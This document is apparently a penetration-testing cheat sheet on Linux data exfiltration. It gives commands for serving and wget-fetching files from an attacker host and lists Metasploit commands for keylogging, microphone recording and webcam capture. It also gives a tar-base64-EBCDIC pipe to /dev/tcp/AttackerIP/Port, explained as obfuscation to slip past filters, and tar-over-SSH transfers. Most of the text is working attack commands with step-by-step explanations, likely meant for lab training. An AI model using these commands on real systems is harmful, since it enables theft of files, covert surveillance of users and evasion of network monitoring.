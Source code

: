 # Linux

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
wget http://attackeraddress/filename   
```

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## TCP Exfiltration

Attacker Listener

<pre><code><strong>nc -lvnp -port- >  "filename we can set "
</strong></code></pre>

Sending to listener

```bash
tar zcf - directoryName | base 64 | dd conv=ebcdic> /dev/tcp/AttackerIP/Port
```

1️⃣ `tar zcf - directoryName`

* `tar` = archive utility.
* `z` = compress using gzip.
* `c` = create a new archive.
* `f -` = output to **stdout** (instead of a file).
* `directoryName` = the folder being archived.

**Effect:** This creates a compressed archive of `directoryName` and sends it **to stdout**.

***

2️⃣ `| base64`

* `base64` = encodes the binary tar.gz data into **ASCII text**.
* Why? Because sending raw binary over `/dev/tcp` might break if the network path expects text, and ASCII is safer.

***

3️⃣ `| dd conv=ebcdic`

* `dd` = low-level copy/convert tool.
* `conv=ebcdic` = converts the ASCII Base64 output to **EBCDIC encoding**.
* EBCDIC is an old IBM character encoding.
* Often seen in malware/obfuscation to bypass filters or legacy systems.

***

4️⃣ `> /dev/tcp/AttackerIP/Port`

* Bash allows redirecting output to **special TCP device**:
  * `/dev/tcp/IP/PORT` opens a TCP connection to that host and port.
* `>` = send all stdout (the EBCDIC-encoded Base64 archive) **directly to the attacker**.

{% hint style="warning" %}
Essenitly we zip the file we want to transfer.The data we transfer must be the directory
{% endhint %}

After recivied - Decode the data

```
dd conv=ascii if=FileName | base64 -d > FileName
```

Unzip

```bash
tar xvf fileName.tar
```

Examples

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.
